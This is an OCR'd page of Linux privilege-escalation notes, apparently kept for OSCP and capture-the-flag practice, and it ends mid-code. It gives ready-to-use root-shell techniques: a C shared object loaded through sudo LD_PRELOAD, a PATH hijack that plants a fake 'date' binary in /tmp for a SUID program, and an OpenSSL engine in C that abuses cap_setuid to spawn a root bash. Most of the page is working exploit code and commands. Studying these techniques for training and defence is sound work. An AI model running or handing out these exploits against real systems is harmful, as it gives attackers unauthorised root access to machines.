 ```C
     unsetenv("LD_PRELOAD");
     setgid(0);
     setuid(0);
     system("/bin/sh");
}
```
- `gcc -fPIC -shared -o shell.so root.c -nostartfiles`
- And the final step `sudo LD_PRELOAD=/tmp/shell.so /path/to/privesc/vector/program`

***
**#Environment_Privilege_Escalation**
If you saw a software that has suidbit(`-rwSr-xr-x`) set and/or owned by the root user you can just exploit it with following commands:

Let's say the name of the program is `current-date` and program is using the `date` command;
- `cd /tmp`
- `echo "/bin/bash" > date`
- `chmod 777 date`
- `export PATH=/tmp:$PATH`
- go back to the original privilege escalate vector program's directory and run it!

REFERENCE
- OSCP Realistic Linux Machine - Nully Cybersecurity Vulnhub.mp4:47:00

*Example*
-If you saw a program on the machine and working with root permission and you can't modify it then ,see which services/progras running on the software ,then `export PATH=/tmp:$PATH` route it a script (`/bin/bash` OR` /bin/sh`) ,run the program again ,select it from the menu ,boom you're the root (for more details : FTP and Linux Environment Variables - TryHackMe Kenobi.mp4 44:00)

***
**#Openssl_Capabilities**
If you see this result under Capabilities[+] column in linpeas
`/usr/bin/openssl = cap_setuid+ep`
It's defenitely exploitable ,and that's what we gonna do

1 - Create a file calling rootshell.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <openssl/engine.h>

static const char *engine_id = "root shell";
static const char *engine_name = "Spawns a root shell";

static int bind(ENGINE *e, const char *id)
{
    int ret = 0;

    if (!ENGINE_set_id(e, engine_id)) {
        fprintf(stderr, "ENGINE_set_id failed\n");
        goto end;
    }
    
    if (!ENGINE_set_name(e, engine_name)) {
        printf("ENGINE_set_name failed\n");
        goto end;
    }

    setuid(0);
    setgid(0);
    system("/bin/bash");
    
    ret = 1;
```
